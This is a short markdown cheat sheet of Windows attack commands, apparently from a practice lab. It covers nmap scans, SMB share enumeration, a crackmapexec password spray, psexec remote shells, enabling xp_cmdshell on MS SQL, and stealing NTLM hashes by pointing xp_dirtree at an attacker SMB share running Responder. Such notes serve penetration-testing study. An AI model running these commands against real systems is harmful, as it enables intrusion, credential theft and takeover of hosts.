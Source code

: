 # Windows Recon & Attack
## Enumeration
### Scans
```bash
sudo nmap -p- -sC -sV $IP --open -oA scans/nmap_Initial
```

### SMB - Uncredentialed
List Shares
```bash
smbclient -L \\\\<IP or hostname> 
```
smbmap
```bash
smbmap -H <IP or hostname> -u null # Test for null access
```
### SMB - Credentialed
CME
```bash
crackmapexec smb 10.10.10.178 -u TempUser -p welcome2019 --shares
```
smbmap
```bash
smbmap -H <IP or Hostname> -u <user> -p <password>
```
smbclient
```bash
smbclient -U <user> //<host or ip>/<share> <password>
```
### Password Spray
CME
```bash
crackmapexec smb 10.10.10.178 -u Usernames.txt -p 'welcome2019' --local-auth --continue-on-success
```
## Remote Shell
### Impacket
Impacket-psexec
```bash
impacket-psexec <user>:<password>@<IP>
```
### Evil-WinRM
```bash
```
## Attack
### SQL
xp_cmdshell
```powershell
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell 'whoami'
```
Hash Stealing with xp_subdris or xp_dirtree
Start Responder on Attack machine
```powershell
EXEC master..xp_dirtree '\\10.10.110.17\share\'
or
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```
Collect hashes from responder

